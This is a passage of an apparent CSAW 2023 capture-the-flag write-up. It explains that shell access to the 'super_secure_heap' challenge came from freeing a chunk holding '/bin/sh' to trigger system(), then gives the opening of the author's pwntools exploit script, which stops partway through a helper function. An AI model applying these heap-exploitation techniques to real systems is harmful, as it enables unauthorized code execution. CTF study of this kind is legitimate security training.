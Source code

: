 In order to finish exploit I triggered the `__libc_system` function by freeing a chunk which have `/bin/sh` string on it.

<img src="/images/csaw2023/ssh5.png">

Here is my exploit code
{% highlight python %}
from pwn import *

# r = process("./super_secure_heap")

#!/usr/bin/env python2
'''
    author : tripoloski 
    visit  : https://tripoloski1337.github.io/
    mail   : arsalan.dp@gmail.com
'''
import sys
from pwn import *
context.update(arch="amd64", endian="little", os="linux", log_level="warning",
               terminal=["tmux", "split-window", "-v", "-p 85"],)
LOCAL, REMOTE = False, False
TARGET=os.path.realpath("./super_secure_heap")
elf = ELF(TARGET)

def attach(r):
    if LOCAL:
        bkps = ["* delete", "* add", "* set"]
        gdb.attach(r, '\n'.join(["break %s"%(x,) for x in bkps]))
    return

def keys_add(size):
    r.sendlineafter(">\n", "1")
    r.sendlineafter(">\n", "1")
    r.sendlineafter(":\n", str(size))

def keys_delete(idx):
    r.sendlineafter(">\n", "1")